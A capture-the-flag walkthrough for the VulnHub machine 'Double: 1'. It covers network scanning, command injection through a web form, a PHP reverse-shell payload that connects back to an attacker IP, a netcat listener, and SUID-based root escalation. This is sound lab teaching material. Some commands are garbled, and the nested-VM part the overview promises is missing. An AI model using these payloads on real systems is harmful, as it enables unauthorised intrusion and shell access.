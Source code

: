 # Double-1
## Overview :
DOUBLE: 1 is a Linux-based virtual machine game released on the VulnHub platform with easy to medium difficulty levels. Designed by foxlox, this CTF uses the “Double Trouble” concept, where participants are gradually confronted with two target systems: the main machine and a nested VM within it.

## Objective :
The primary goal of this challenge is to gain root access on both systems through rigorous enumeration, web exploitation, steganography, remote command execution (RCE), privilege escalation, and nested VM import and exploitation.
This engine is ideal for participants looking to strengthen their foundation in web exploitation techniques, hidden file analysis, and privilege escalation in a simulated, real-world environment.

## The Hack :
As usual, the first thing we do is find the target IP address by checking the machines on our network, using tools like arp-scan, NetDiscover, Angry IP, and others. Since I'm using macOS, I'm using arp-scan, so let's get started.
```
arp-scan —intefaces=en0 --
```

![Screenshot](images/1.png)

The IP address 192.168.0.103 will be our target. Once we have it, let's run an Nmap scan to check for open ports and running services.
```
nmap -A -p- 192.168.0.103 -Pn
```

![Screenshot](images/2.png)

Nmap has identified some interesting open ports. As usual, let's check out the website.

![Screenshot](images/3.png)

Hmm, it looks like a blank book. Here you can see the Production and Test entries, let's take a look.

![Screenshot](images/4.png)

Login page? YES. So I've tried some default credentials but none of them worked. So let's check the Production entry.

![Screenshot](images/5.png)

Looking at the input, it asks for a command and a code. So, I used the code (9001) and the valid Linux command 'id'.

![Screenshot](images/6.png)

However, the command wasn't executed. However, I did see some results. For example, I now have a new GET parameter "out." I also see the date and time, as well as my machine's IP address. So, I can conclude that some variables have been used. So, I tried executing some PHP code.
```
<?php $sock=fsockopen("192.168.0.101",1337);exec("bash <&3 >&3 2>&3");
```

![Screenshot](images/7.png)

Before sending the command, open a new terminal and use netcat to get a reverse connection:
```
Nc -lnvp 1337
```

![Screenshot](images/8.png)

Finally, it's time to elevate privileges and move to the top. Diani has two users, ppp and fox. However, I couldn't find a way to elevate privileges for either user. Interestingly, when I looked at the SUID binaries, there were two that could grant me root access.
```
find / -perm -4000 -exec ls -al {} \; 2>/dev/null
```

![Screenshot](images/9.png)

Yes, that's it. Let's execute it. There are actually two ways to reach the top. I can use **[nice](https://gtfobins.github.io/gtfobins/nice/#suid)** or **[chroot](https://gtfobins.github.io/gtfobins/chroot/#suid)**.

![Screenshot](images/10.png)

Conclusion :
While not technically complex, DOUBLE: 1 requires participants to think strategically, thoroughly observe file structures and systems, and systematically organize exploitation steps. Its added value lies in the nested machine concept, which is rare in beginner-intermediate CTFs and provides an extra challenge while realistically simulating complex infrastructure.
![gif](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExN2tmcGtqdW5xbmk5czVrbmptaGx3cWxyM3dpMjM4ZzU3NWxkYjE1NSZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/mQG644PY8O7rG/giphy.gif)
